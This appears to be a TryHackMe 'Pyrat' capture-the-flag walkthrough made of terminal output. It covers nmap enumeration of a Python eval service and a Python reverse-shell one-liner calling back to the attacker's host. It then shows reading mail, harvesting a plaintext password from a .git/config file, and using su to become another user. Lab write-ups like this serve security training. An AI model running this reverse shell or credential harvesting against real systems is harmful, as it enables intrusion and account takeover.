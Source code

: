 <code>
https://tryhackme.com/r/room/pyrat
  
**Enumeration**

┌──(duke㉿kali)-[~]
└─$ nmap -A -Pn  10.10.4.202   
Starting Nmap 7.92 ( https://nmap.org ) at 2024-10-10 02:53 CDT
Nmap scan report for 10.10.4.202
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=10/10%Time=6707880C%P=x86_64-pc-linux-gnu%r(G

**http-server-header: SimpleHTTP/0.6 Python/3.11.2**

┌──(duke㉿kali)-[~]
└─$ nc pyrat.thm 8000                                                                                                                                                                                   
import
invalid syntax (<string>, line 1)
dsd
name 'dsd' is not defined
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.30.202",5002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

**get reverse shell**
┌──(duke㉿kali)-[~]
└─$ nc -lvnp 5002                                                   
listening on [any] 5002 ...
connect to [10.9.30.202] from (UNKNOWN) [10.10.4.202] 57226
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


/var/spool/mail/think

www-data@Pyrat:/var/spool/mail$ cat think
cat think
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
www-data@Pyrat:/var/spool/mail$ 

**Found Git project**

www-data@Pyrat:/opt/dev/.git$ grep -r "password" .
grep -r "password" .
./config:       password = _TH1NKINGPirate$_
www-data@Pyrat:/opt/dev/.git$ cat ./config
cat ./config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_

**user Think granted**
www-data@Pyrat:/opt/dev/.git$ su think
su think
Password: _TH1NKINGPirate$_

think@Pyrat:/opt/dev/.git$ id
id
uid=1000(think) gid=1000(think) groups=1000(think)
think@Pyrat:/opt/dev/.git$ 


  
<\code>
